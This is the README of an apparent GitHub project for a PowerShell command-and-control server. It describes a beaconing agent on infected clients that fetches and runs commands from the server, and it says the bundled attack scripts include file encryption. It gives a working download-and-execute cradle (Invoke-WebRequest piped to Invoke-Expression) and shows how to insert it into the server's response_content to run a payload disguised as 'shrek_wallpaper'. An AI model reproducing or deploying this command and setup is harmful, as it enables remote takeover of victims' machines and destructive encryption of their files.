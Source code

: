 # Powershell-C2 Server

This is a primitive c2 server through an HTTP server. After the client has been infected with the  beaconing agent, it waits for a random time before requesting data from the C2. The beacon agent will execute the command sent.

### Script structure
Some of powershell scripts that are included must be modified before-hand, with correct URLs or IPs. Be sure to read them and understand them before running, and be especially aware of the encrypting stuff. Know your keys, so that if in case you encrypt by mistake some files, you can recover them after.

Scripts are split into multiple folders with the type of attack  it encompasses.

### Script calling
To execute a script, use the following command in the field of `response_content`:
`Invoke-WebRequest -Uri "http://<c2_ip>:<c2_port>/<resource_name>"  | Invoke-Expression`

One example would be:
`Invoke-WebRequest -Uri "http://10.0.2.2:8080/shrek_wallpaper"  | Invoke-Expression`, which calls resource `shrek_wallpaper` from the C2, that's available at `10.0.2.2`, on port `8080`. 

This command is inserted in the line of response_content of the C2 python file:
`response_content = r'''Invoke-WebRequest -Uri "http://10.0.2.2:8080/shrek_wallpaper"  | Invoke-Expression'''`


